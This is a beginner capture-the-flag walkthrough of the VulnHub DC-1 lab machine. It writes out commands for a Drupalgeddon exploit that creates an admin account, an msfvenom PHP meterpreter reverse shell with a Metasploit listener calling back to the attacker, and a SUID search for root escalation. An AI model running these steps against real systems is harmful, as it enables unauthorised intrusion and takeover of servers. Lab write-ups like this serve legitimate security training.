# DC-1 Walkthrough 
**Link**: [https://www.vulnhub.com/entry/dc-1,292/](https://www.vulnhub.com/entry/dc-1,292/)
**OS**: Linux  
**Difficulty**: Beginner  
**Approach**: Drupalgeddon → PHP reverse shell → SUID privesc  
**Flags found**: 5/5  
**Date of writeup**: February 2026

This is a walkthrough of [DC-1 machine](https://www.vulnhub.com/entry/dc-1,292/). The main goal is to gain root access. There are also five bonus flags containing progressive clues. Download the OVA from VulnHub, import into VirtualBox/VMware, and set the network adapter to Host-Only (e.g., VirtualBox Host-Only Ethernet Adapter). Boot the VM and note its IP (e.g., via netdiscover).

For me target ip is: ```192.168.56.105``` (yours may vary).

Anyway lets move to the fun part.

## First look and enumeration
It's always smart to start with the web server — it often gives strong hints about the next steps.

The site is clearly running Drupal (a CMS similar to WordPress), and there's a visible login form. Drupal has quite a few known vulnerabilities, but most require knowing the exact version. Let's run a quick Nmap scan. 

```nmap -sS -sV -A 192.168.56.105``` 



We see the usual Apache + OpenSSH combo, plus port 111 (rpcbind), but we're not interested in that yet.
The scan gave as an Drupal vesrion, we can search for vulnerabilities in it.

```searchsploit Drupal 7```


Fortunately, there are plenty of exploits available for Drupal 7."

## Explotation
We'll use the first one to create our own admin account.
Lets mirror it to our current working directory \
```searchsploit -m 34992```

Lets run the script with the following command \
```python2 34992.py -t http://192.168.56.105/ -u newadmin -p hacked ```
Where -t flag is our target, -u username for the user that will be created and -p is a password. 
\
The output confirms we successfully exploited Drupal and created a new admin user. Now lets login with to the web page with out credentials. Congrats — we're logged in as an administrator! If we move to the content page we will find our first flag. \
\
Wich give us a first clue \
```Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.```\
We will keep that in mind, right now we need to get a reverse shell on the target server. To get a shell, we'll upload a malicious PHP file. To do that in Drupal we first need to enable php filter, go to "Modules", find PHP Filter and togle it on 
 
Very important: go to Permissions for the PHP filter module and enable the 'Use PHP code' option.

Great now we can upload our own php reverse shell. For that we will use msfvenom
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.56.104 LPORT=443 -f raw > reverse-shell.php
```

This command will generate a php meterpreter reverse shell, you need to set LHOST to your own ip.
Next copy the code from **reverse-shell.php** file and create a new basic page on a Drupal website.
Next, set up a listener in Metasploit:
```
use exploit/multi/handler
```
Dont forget to set the same payload type as you used in msfvenom, as well as LHOST and LPORT
```
set payload php/meterpreter_reverse_tcp
set LHOST 192.168.56.104
set LPORT 443
```
Run the listenere with **exploit** command and navigate to your newly created page in browser to triger the php code.
```
[*] Meterpreter session 1 opened (192.168.56.104:443 -> 192.168.56.105:43374) at 2026-02-21 12:39:26 -0500
```
Great, now lets open our session
```
sessions -l
sessions -i <id>
```
Let's upgrade the shell to make it more comfortable:
```
shell
python -c "import pty; pty.spawn('/bin/bash')"
```

Running ls gives us this output
```
-rw-r--r--  1 www-data www-data   174 Nov 21  2013 .gitignore
-rw-r--r--  1 www-data www-data  5767 Nov 21  2013 .htaccess
-rw-r--r--  1 www-data www-data  1481 Nov 21  2013 COPYRIGHT.txt
-rw-r--r--  1 www-data www-data  1451 Nov 21  2013 INSTALL.mysql.txt
-rw-r--r--  1 www-data www-data  1874 Nov 21  2013 INSTALL.pgsql.txt
-rw-r--r--  1 www-data www-data  1298 Nov 21  2013 INSTALL.sqlite.txt
-rw-r--r--  1 www-data www-data 17861 Nov 21  2013 INSTALL.txt
-rwxr-xr-x  1 www-data www-data 18092 Nov  1  2013 LICENSE.txt
-rw-r--r--  1 www-data www-data  8191 Nov 21  2013 MAINTAINERS.txt
-rw-r--r--  1 www-data www-data  5376 Nov 21  2013 README.txt
-rw-r--r--  1 www-data www-data  9642 Nov 21  2013 UPGRADE.txt
-rw-r--r--  1 www-data www-data  6604 Nov 21  2013 authorize.php
-rw-r--r--  1 www-data www-data   720 Nov 21  2013 cron.php
-rw-r--r--  1 www-data www-data    52 Feb 19  2019 flag1.txt
drwxr-xr-x  4 www-data www-data  4096 Nov 21  2013 includes
-rw-r--r--  1 www-data www-data   529 Nov 21  2013 index.php
-rw-r--r--  1 www-data www-data   703 Nov 21  2013 install.php
drwxr-xr-x  4 www-data www-data  4096 Nov 21  2013 misc
drwxr-xr-x 42 www-data www-data  4096 Nov 21  2013 modules
drwxr-xr-x  5 www-data www-data  4096 Nov 21  2013 profiles
-rw-r--r--  1 www-data www-data  1561 Nov 21  2013 robots.txt
drwxr-xr-x  2 www-data www-data  4096 Nov 21  2013 scripts
drwxr-xr-x  4 www-data www-data  4096 Nov 21  2013 sites
-rw-r--r--  1 www-data www-data     6 Feb 19 04:59 test.txt
drwxr-xr-x  7 www-data www-data  4096 Nov 21  2013 themes
-rw-r--r--  1 www-data www-data 19941 Nov 21  2013 update.php
-rw-r--r--  1 www-data www-data  2178 Nov 21  2013 web.config
-rw-r--r--  1 www-data www-data   417 Nov 21  2013 xmlrpc.php
```
And here our flag1, which says
```
Every good CMS needs a config file - and so do you.
```
After a quick look around, I found the Drupal configuration file in sites/default/settings.php — and it contained Flag 2 plus the database credentials. \


Let's follow the hint and look for a privilege escalation path. We can search for SUID Binaries and gain root privalages with their help
```
find / -perm -4000 -type f 2>/dev/null
```



**find /** Start searching from the root directory (/) → scan the entire filesystem \
**-perm -4000** Match files whose permissions include the SUID bit (octal 4000 = u+s / setuid bit) \ 
**-type f** Only regular files (not directories, symlinks, devices, etc.) \
**2>/dev/null** Redirect stderr (error messages) to /dev/null (discard them) \
Now we will use a GTFOBins (Get The F*ck Out Binaries) a website that lists Unix binaries that can be exploited by an attacker to escalate privileges. 

Running this command gives us a root privalages


In **/root** there is a final flag, alson flat4 is located in **/home/flag4/flag4.txt** 

## Conclusion

DC-1 is an excellent starter box that walks you through a very realistic web → shell → root path using one of the most famous Drupal vulnerabilities ever.

I really enjoyed cracking this machine — it taught me a ton in a very logical way:  
Drupal exploitation (hello, Drupalgeddon!), PHP file upload for a reverse shell, hunting down config files with juicy credentials, and finally that classic SUID abuse to jump to root.

Even though I mixed up the flag order a bit, the main takeaway is solid: always enumerate carefully, follow the breadcrumbs, and never skip basic privesc checks like SUID binaries.

